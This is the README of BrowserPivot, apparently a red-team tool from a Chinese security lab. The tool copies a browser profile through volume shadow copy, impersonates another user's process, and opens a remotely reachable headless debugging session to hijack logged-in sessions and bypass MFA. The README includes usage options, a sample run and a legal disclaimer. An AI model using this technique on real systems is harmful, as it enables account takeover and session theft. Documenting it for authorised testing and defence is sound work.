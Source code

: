 # BrowserPivot

BrowserPivot是一个基于卷影复制和浏览器调试模式功能以达到绕过MFA验证的自动化辅助工具。

# 使用场景

- 无法使用明文账号密码登录网站
- 无法使用Cookies登录网站

# 使用方法

```
BrowserPivot 1.0.0.0
Copyright ?  2023

ERROR(S):
  Required option 'p, pid' is missing.
  Required option 'l, port' is missing.
  Required option 'b, browser' is missing.

  -p, --pid        Required. Process ID.

  -l, --port       Required. Local port.

  -b, --browser    Required. Browser (chrome or msedge).

  --help           Display this help screen.

  --version        Display version information.

-p 需要模拟的进程PID，通常为要访问的资源用户PID
-l 启动非占用本地端口
-b 请选择chrome或者msedge，其他选择请自行修改代码
```



```
C:\Users\rootrain\source\repos\BrowserPivot\BrowserPivot\bin\Debug>BrowserPivot.exe -p 10732 -l 2555 -b msedge

 ____                                  _____ _            _
|  _ \                                |  __ (_)          | |
| |_) |_ __ _____      _____  ___ _ __| |__) |__   _____ | |_
|  _ <| '__/ _ \ \ /\ / / __|/ _ \ '__|  ___/ \ \ / / _ \| __|
| |_) | | | (_) \ V  V /\__ \  __/ |  | |   | |\ V / (_) | |_
|____/|_|  \___/ \_/\_/ |___/\___|_|  |_|   |_| \_/ \___/ \__|

[+] Volume: \\?\Volume{e8e4545b-7571-4c89-ba6f-e6cf232eb558}\
[+] Shadow copy ID: {9688E39D-BD6F-4115-B596-90C6BCC71D26}
[+] Shadow copy device name: \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1
[+] Copy directory \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Users\rootrain\AppData\Local\Microsoft\Edge\User Data to directory C:\Users\rootrain\AppData\Local\UwFwjfWgw9
[+] msedge path: C:\Program Files (x86)\Microsoft\Edge\Application\msedge.exe
[+] Process handle: True
[+] Impersonated user: DESKTOP-TAVA6P8\rootrain
[+] Start process: C:\Program Files (x86)\Microsoft\Edge\Application\msedge.exe --user-data-dir=C:\Users\rootrain\AppData\Local\UwFwjfWgw9 --remote-debugging-port=2555 --remote-debugging-address=0.0.0.0 --headless about:blank
[+] Shadows deleted successfully
```



# 注意事项

```
1.如发现C盘磁盘占用过高，请清除卷影复制的目录，位于C:\Users\%USERNAME%\AppData\Local\
2.如果进程无法进行模拟，可以多试几个PID，或者手动启动进行并模拟
```

# 免责声明
本工具仅面向合法授权的企业安全建设行为或教学使用，如您需要测试本工具的可用性，请自行搭建靶机环境。

在使用本工具进行检测时，您应确保该行为符合当地的法律法规，并且已经取得了足够的授权。请勿对非授权目标进行扫描和攻击。

如您在使用本工具的过程中存在任何非法行为，您需自行承担相应后果，作者将不承担任何法律及连带责任。

在安装并使用本工具前，请您务必审慎阅读、充分理解各条款内容，限制、免责条款或者其他涉及您重大权益的条款可能会以加粗、加下划线等形式提示您重点注意。 除非您已充分阅读、完全理解并接受本协议所有条款，否则，请您不要安装并使用本工具。您的使用行为或者您以其他任何明示或者默示方式表示接受本协议的，即视为您已阅读并同意本协议的约束。

# 安恒-星火实验室
<h1 align="center">
  <img src="starfile.jpeg" alt="starfile" width="200px">
  <br>
</h1>

专注于实战攻防与研究，研究涉及实战攻防、威胁情报、攻击模拟与威胁分析等，团队成员均来自行业具备多年实战攻防经验的红队、蓝队和紫队专家。本着以攻促防的核心理念，通过落地 ATT&CK 攻防全景知识库，全面构建实战化、常态化、体系化的企业安全建设与运营。

